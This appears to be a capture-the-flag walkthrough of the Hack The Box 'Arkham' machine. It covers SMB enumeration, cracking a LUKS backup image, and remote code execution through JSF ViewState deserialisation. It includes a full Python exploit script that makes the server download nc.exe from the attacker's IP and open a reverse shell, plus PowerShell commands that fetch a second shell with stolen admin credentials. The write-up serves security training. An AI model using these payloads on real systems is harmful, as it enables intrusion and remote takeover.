

# Arkham

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.228.116           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-23 02:31 EDT
Nmap scan report for 10.129.228.116
Host is up (0.023s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
49666/tcp open  unknown
49667/tcp open  unknown
```

Detailed scan:

```
$ nmap -p 80,135,139,445,8080 -sC -sV --min-rate 3000 10.129.228.116
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-23 02:33 EDT
Nmap scan report for 10.129.228.116
Host is up (0.060s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Apache Tomcat 8.5.37
|_http-title: Mask Inc.
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enum -> LUKS Image

`smbmap` using `guest` access returned some stuff:

```
$ smbmap -u 'guest' -p '' -H 10.129.228.116
[+] IP: 10.129.228.116:445      Name: 10.129.228.116                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        BatShare                                                READ ONLY       Master Wayne's secrets
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        Users                                                   READ ONLY
```

There were 2 Shares I was interested in, `Users` and `BatShare`. 

`Users` didn't have much:

```
$ smbclient -U 'guest' //10.129.228.116/Users
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Feb  3 08:24:10 2019
  ..                                 DR        0  Sun Feb  3 08:24:10 2019
  Default                           DHR        0  Thu Jan 31 21:49:06 2019
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Guest                               D        0  Sun Feb  3 08:24:19 2019
```

The `Guest` directory was just a completely normal directory. The `BatShare` directory did have an interesting file however:

```
$ smbclient -U 'guest' //10.129.228.116/BatShare
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb  3 08:00:10 2019
  ..                                  D        0  Sun Feb  3 08:00:10 2019
  appserver.zip                       A  4046695  Fri Feb  1 01:13:37 2019

                3871999 blocks of size 4096. 1106102 blocks available
```

I downloaded the file using `get`, and unzipped it to find 2 files:

```
$ unzip appserver.zip 
Archive:  appserver.zip
  inflating: IMPORTANT.txt           
  inflating: backup.img

$ cat IMPORTANT.txt     
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce

$ file backup.img                          
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e, at 0x1000 data, 32 key bytes, MK digest 0x9a35ab3db2fe09d65a92bd015035a6abdcea0147, MK salt 0x36e88d002fb03c1fde4d9d7ba69c59257ae71dd7893d9cabefb6098ca87b8713, 176409 MK iterations; slot #0 active, 0x8 material offset
```

LUKS is the standard for Linux hard disk encryption. `bruteforce-luks` is a tool that can be used to crack this password. I used `rockyou.txt` as the wordlist:

```
$ bruteforce-luks -f /usr/share/wordlists/rockyou.txt -v 15 -t 10 -w state.txt backup.img
```

However, I soon realised that this method of brute-forcing was extremely slow and also super hard on my computer. Since this entire box was Batman themed, I created a sub-wordlist using `grep`:

```
$ grep batman /usr/share/wordlists/rockyou.txt > pass_bat.txt
```

This is much quicker and finds the password quickly.

```
$ bruteforce-luks -f pass_bat.txt -v 15 -t 10 -w state.txt backup.img 
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Warning: can't open state file, state not restored, a new file will be created.

Tried passwords: 40
Tried passwords per second: 2.666667
Last tried password: batman27

Tried passwords: 60
Tried passwords per second: 2.608696
Last tried password: batman82

Password found: batmanforever
```

I can then use the password to decrypt and `mount` it as per this post:



```
$ sudo cryptsetup open --type luks backup.img htbarkham  
Enter passphrase for backup.img:
```

This appears in my `/dev/mapper` directory:

```
$ ls -la
total 0
drwxr-xr-x  2 root root      80 Mar 23 02:47 .
drwxr-xr-x 17 root root    3440 Mar 23 02:47 ..
crw-------  1 root root 10, 236 Mar 23 02:30 control
lrwxrwxrwx  1 root root       7 Mar 23 02:47 htbarkham -> ../dm-0
```

I created a directory within `/mnt` and mounted it there:

```
$ sudo mount /dev/mapper/htbarkham /mnt/htbarkham

$ ls -la /mnt/htbarkham
total 18
drwxr-xr-x 4 root root  1024 Dec 25  2018 .
drwxr-xr-x 3 root root  4096 Mar 23 02:48 ..
drwx------ 2 root root 12288 Dec 25  2018 lost+found
drwxrwxr-x 4 root root  1024 Dec 25  2018 Mask
```

Within the `Mask` directory, there there looked to be some application files for the Tomcat instance:

```
$ ls -la
total 882
drwxrwxr-x 4 root root   1024 Dec 25  2018 .
drwxr-xr-x 4 root root   1024 Dec 25  2018 ..
drwxr-xr-x 2 root root   1024 Dec 25  2018 docs
-rw-rw-r-- 1 root root  96978 Dec 25  2018 joker.png
-rw-rw-r-- 1 root root 105374 Dec 25  2018 me.jpg
-rw-rw-r-- 1 root root 687160 Dec 25  2018 mycar.jpg
-rw-rw-r-- 1 root root   7586 Dec 25  2018 robin.jpeg
drwxr-xr-x 2 root root   1024 Dec 25  2018 tomcat-stuff
```

### Web + File Enum -> Deserialisation

Before proceeding into enumerating the Tomcat instance, I should probably find it first.

Port 8080 hosted a website promoting a masking service:


The site was rather static, so I ran a `gobuster` scan on this, which returned nothing useful.

Taking a look at the page source, I found that there was some `userSubscribe.faces` endpoint:



This returned me to this page:


I can sign up with any string:


The request that it send was rather interesting. Here are the POST request parameters:


Lots of mentioning of JSP, and the `.faces` extension means that this uses JavaServer.Faces.


Interesting. Within the Tomcat folder, there was just a bunch of `.xml` files:

```
$ ll
total 191
-rw-r--r-- 1 root root   1368 Dec 25  2018 context.xml
-rw-r--r-- 1 root root    832 Dec 25  2018 faces-config.xml
-rw-r--r-- 1 root root   1172 Dec 25  2018 jaspic-providers.xml
-rw-r--r-- 1 root root     39 Dec 25  2018 MANIFEST.MF
-rw-r--r-- 1 root root   7678 Dec 25  2018 server.xml
-rw-r--r-- 1 root root   2208 Dec 25  2018 tomcat-users.xml
-rw-r--r-- 1 root root 174021 Dec 25  2018 web.xml
-rw-r--r-- 1 root root   3498 Dec 25  2018 web.xml.bak
```

Out of all of these the `web.xml.bak` file was the most interesting, since it looked like it really didn't belong there. The file contained a lot of settings:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns="http://java.sun.com/xml/ns/javaee" xmlns:web="http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
id="WebApp_ID" version="2.5">
<display-name>HelloWorldJSF</display-name>
<welcome-file-list>
<welcome-file>index.html</welcome-file>
<welcome-file>index.htm</welcome-file>
<welcome-file>default.html</welcome-file>
<welcome-file>default.htm</welcome-file>
<welcome-file>default.jsp</welcome-file>
</welcome-file-list>
<servlet>
<servlet-name>Faces Servlet</servlet-name>
<servlet-class>javax.faces.webapp.FacesServlet</servlet-class>
<load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
<servlet-name>Faces Servlet</servlet-name>
<url-pattern>*.faces</url-pattern>
</servlet-mapping>
<context-param>
<param-name>javax.servlet.jsp.jstl.fmt.localizationContext</param-name>
<param-value>resources.application</param-value>
</context-param>
<context-param>
<description>State saving method: 'client' or 'server' (=default). See JSF Specification 2.5.2</description>
<param-name>javax.faces.STATE_SAVING_METHOD</param-name>
<param-value>server</param-value>
</context-param>
<context-param>
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
<description>
This parameter tells MyFaces if javascript code should be allowed in
the rendered HTML output.
If javascript is allowed, command_link anchors will have javascript code
that submits the corresponding form.
If javascript is not allowed, the state saving info and nested parameters
will be added as url parameters.
Default is 'true'</description>
<param-name>org.apache.myfaces.ALLOW_JAVASCRIPT</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<description>
If true, rendered HTML code will be formatted, so that it is 'human-readable'
i.e. additional line separators and whitespace will be written, that do not
influence the HTML code.
Default is 'true'</description>
<param-name>org.apache.myfaces.PRETTY_HTML</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<param-name>org.apache.myfaces.DETECT_JAVASCRIPT</param-name>
<param-value>false</param-value>
</context-param>
<context-param>
<description>
If true, a javascript function will be rendered that is able to restore the
former vertical scroll on every request. Convenient feature if you have pages
with long lists and you do not want the browser page to always jump to the top
if you trigger a link or button action that stays on the same page.
Default is 'false'
</description>
<param-name>org.apache.myfaces.AUTO_SCROLL</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfViewsInSession</param-name>
<param-value>500</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfLogicalViews</param-name>
<param-value>500</param-value>
</context-param>
<listener>
<listener-class>org.apache.myfaces.webapp.StartupServletContextListener</listener-class>
</listener>
</web-app>
```

The thing I noted was the mentioning of a `SECRET`, `MAC_SECRET` and `MAC_ALGORITHM`. When searching for exploits for JSF, there were a lot of results that mentioned Deserialisation.



Based on the above article, it exploits the serialised Java object named the `ViewState`. In the case for this machine, it is **user-controlled** since it appeared in the POST parameters for the subscription.

So deserialisation is the RCE vector for the box!

### Exploit Deserialistaion -> RCE

For JSF, there is default encryption using DES. Since there were some HMAC parameters given to me, I'm assuming I have to **encrypt and sign** the payload.

The secret decoded returns this:

```
$ echo SnNGOTg3Ni0= | base64 -d
JsF9876-
```

Firstly, I had to encrypt and then sign this. I used this repository's helper functions to do so:



Here's my code:

```python
import base64
from hashlib import sha1
import hmac
import pyDes
import binascii
from urllib import parse

def hmac_signature(secret, string):
    hashed = hmac.new(secret,string,sha1)
    return hashed.digest()

def encryptDES_ECB(data, key):
    k = pyDes.des(key, pyDes.ECB, IV=None, pad=None, padmode=pyDes.PAD_PKCS5)
    d = k.encrypt(data)
    assert k.decrypt(d, padmode=pyDes.PAD_PKCS5) == data
    return d

def build_payload(payload, secret_key):
    cipher = encryptDES_ECB(payload, secret_key)
    hmac_digest = hmac_signature(secret_key, cipher)
    b64_encrypted_payload = base64.b64encode(cipher + hmac_digest)
    return parse.quote_plus(b64_encrypted_payload)

with open("dump_payload", "rb") as f:
        payload = f.read()
        f.close()
print(build_payload(payload, b'JsF9876-'))
```

The output from `dump_payload` was created like so:

```
$ java -jar ysoserial-all.jar CommonsCollections5 "cmd.exe /c powershell -c wget 10.10.14.9/hiiamrce" > dump_payload
```

Then, I used the script above to generate the payload required:

```
$ python3 payload.py
o4swGdxTZXw1mKtPxFkjUuWrKOBMVnhQ7RbMizpCb4xVYti30eaLecyiLLU7plNhjPFRnShy4IlIzxo0JHimBY3Uq1igjemgy0Ki4udfDHCBAJC2Yt%2BEq3hlEwGdEWrah3tqcdo5Gxzenm%2BTobetH0%2BaG8%2BiCEB1RbCm7b%2FRwuOING
<TRUNCATED>
```

Afterwards, I replaced the `ViewState` parameter within the POST request to get this:


RCE achieved! From here, I just have to use `subprocess` to retrieve the payload, and then use `requests` to get a shell.

Here's the final no-click exploit script for a reverse shell:

```python
import base64
from hashlib import sha1
import hmac
import pyDes
import binascii
from urllib import parse
import requests
import os
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

url = "http://10.129.228.116:8080/userSubscribe.faces"
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
key = b'JsF9876-'

def hmac_signature(secret, string):
    hashed = hmac.new(secret,string,sha1)
    return hashed.digest()

def encryptDES_ECB(data, key):
    k = pyDes.des(key, pyDes.ECB, IV=None, pad=None, padmode=pyDes.PAD_PKCS5)
    d = k.encrypt(data)
    assert k.decrypt(d, padmode=pyDes.PAD_PKCS5) == data
    return d

def build_payload(payload, secret_key):
    cipher = encryptDES_ECB(payload, secret_key)
    hmac_digest = hmac_signature(secret_key, cipher)
    b64_encrypted_payload = base64.b64encode(cipher + hmac_digest)
    return b64_encrypted_payload

def get_cereal(command):
    final_cmd = 'java -jar ysoserial-all.jar CommonsCollections5 "{}" > cereal'.format(command)
    os.system(final_cmd)

def download_nc():
    get_cereal("cmd.exe /c powershell -c wget 10.10.14.9/nc.exe -Outfile C:/Windows/Tasks/nc.exe")

    with open("cereal", "rb") as f:
        unencrypted_payload = f.read()
        f.close()
    payload = build_payload(unencrypted_payload, key)
    
    data = {
        "j_id_jsp_1623871077_1%253Aemail": "t",
        "j_id_jsp_1623871077_1%253Asubmit": "SIGN+UP",
        "j_id_jsp_1623871077_1_SUBMIT": "1",
        "javax.faces.ViewState": payload
    }
    r = requests.post(url, data=data, verify=False, proxies=proxies)

def trigger_nc():
    get_cereal("cmd.exe /c C:/Windows/Tasks/nc.exe -e cmd.exe 10.10.14.9 4444")
    with open("cereal", "rb") as f:
        unencrypted_payload = f.read()
        f.close()
    payload = build_payload(unencrypted_payload, key)
    data = {
        "j_id_jsp_1623871077_1%3Aemail": "t",
        "j_id_jsp_1623871077_1%3Asubmit": "SIGN UP",
        "j_id_jsp_1623871077_1_SUBMIT": "1",
        "javax.faces.ViewState": payload
    }
    r = requests.post(url, data=data, verify=False, proxies=proxies)

download_nc()
trigger_nc()
```

This gives me a shell to grab the user flag.


## Privilege Escalation

### Email Backup -> Admin Creds

There was a `backups` directory within the Downloads folder for `alfred`:

```
Directory of C:\Users\Alfred\Downloads

02/03/2019  08:48 AM    <DIR>          .
02/03/2019  08:48 AM    <DIR>          ..
02/03/2019  08:41 AM    <DIR>          backups
               0 File(s)              0 bytes
               3 Dir(s)   4,544,143,360 bytes free

Directory of C:\Users\Alfred\Downloads\backups

02/03/2019  08:41 AM    <DIR>          .
02/03/2019  08:41 AM    <DIR>          ..
02/03/2019  08:41 AM           124,257 backup.zip
               1 File(s)        124,257 bytes
               2 Dir(s)   4,544,081,920 bytes free
```

I downloaded this back to my machine via `nc.exe`. When unzipped, this contained some kind of Microsoft Outlook file:

```
$ unzip backup.zip   
Archive:  backup.zip
  inflating: alfred@arkham.local.ost

$ file alfred@arkham.local.ost             
alfred@arkham.local.ost: Microsoft Outlook Offline Storage (>=2003, Unicode, version 36), dwReserved1=0x5c, dwReserved2=0x1f0596, bidUnused=0000000000000000, dwUnique=0x262, 16818176 bytes, CRC32 0xd67c7815
```

I used `readpst` to read this file:

```
$ readpst alfred@arkham.local.ost 
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
        "Inbox" - 0 items done, 7 items skipped.
Processing Folder "Contacts"
Processing Folder "Conversation Action Settings"
Processing Folder "Drafts"
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Journal"
Processing Folder "Junk E-Mail"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Sync Issues"
Processing Folder "RSS Feeds"
Processing Folder "Quick Step Settings"
        "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
Processing Folder "Conflicts"
Processing Folder "Local Failures"
Processing Folder "Server Failures"
        "Sync Issues" - 3 items done, 0 items skipped.
        "Drafts" - 1 items done, 0 items skipped.
```

This created a `Drafts.mbox` file, and it contained a `base64` encoded image:


I decoded this thing and viewed it:


Seems like I now have the password for `batman`, which is `Zx^#QZX+T!123`.

Checking `batman` reveals that this user is an Administrator and part of the Remote Management Group.

```
User name                    Batman                                                          
Full Name                                                                                    
Comment                                                                                      
User's comment                                                                               
Country/region code          001 (United States)                                             
Account active               Yes                                                             
Account expires              Never                                                           
                                                                                             
Password last set            2/3/2019 9:25:50 AM
Password expires             Never
Password changeable          2/3/2019 9:25:50 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   3/23/2024 12:00:01 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Using the credentials, I can attempt to use remote Powershell to execute commands.

```powershell
$pass = ConvertTo-SecureString 'Zx^#QZX+T!123'-AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ('arkham\batman', $pass)
Invoke-command -computername ARKHAM -credential $credential -scriptblock { whoami }
```


Using this, I can get another shell as `batman` via `nc.exe`.

```powershell
Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c powershell -c wget 10.10.14.9/nc64.exe -Outfile C:/windows/tasks/evil.exe }
Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c C:/windows/tasks/evil.exe -e cmd.exe 10.10.14.9 5555 }
```


### Read Flag

For some reason, I was the Administrator but I was unable to read the root flag, and I did not have any administrator privileges:


I was stuck at this part for quite long. For some reason, there is a need to mount the `C$` drive (I read a writeup for this):

```
C:\Users\Batman\Documents>net use Z: \\ARKHAM\C$
net use Z: \\ARKHAM\C$
The command completed successfully.
```

I can then switch to the `Z:` drive to retrieve the flag.


I'm not sure why this is required. 0xdf's writeup mentions that this is running in Constrained mode, but I was a bit too lazy to exploit that :>